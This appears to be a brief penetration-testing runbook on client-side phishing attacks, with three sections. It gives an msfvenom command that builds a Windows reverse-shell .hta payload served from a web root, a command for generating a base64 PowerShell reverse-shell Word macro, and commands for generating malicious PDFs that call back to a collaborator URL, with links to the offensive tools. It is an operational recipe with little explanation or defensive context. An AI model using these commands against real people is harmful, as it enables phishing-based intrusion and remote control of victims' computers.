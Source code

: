 # Client-Side Attacks

## Introduction

This runbook is to help with Client-Side Attacks.  Client-Side Attacks are those attacks that are sent to clients, whe the client has to intiate the connection.  An example of this would be a phishing email.  The listener and backend have to be set up prior, and then client has to click the link in the email.

## Table of Content

- [Client-Side Attacks](#client-side-attacks)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [HTA Attack in Action](#hta-attack-in-action)
  - [Microsoft Word Macro Attack](#microsoft-word-macro-attack)
  - [Malicious PDF](#malicious-pdf)

## HTA Attack in Action

- Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

- Creating a malicious .hta with msfvenom

```sh
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack

- Generate a malicious macro for reverse shell in powershell using base64 for .doc

```python
python evil_macro.py -l <ip> -p <port> -o macro.txt
```

https://github.com/rodolfomarianocy/Evil-Macro/

## Malicious PDF

- Malicious PDF Generator

```python
python3 malicious-pdf.py burp-collaborator-url
```

https://github.com/jonaslejon/malicious-pdf

- evilpdf  
https://github.com/superzerosec/evilpdf
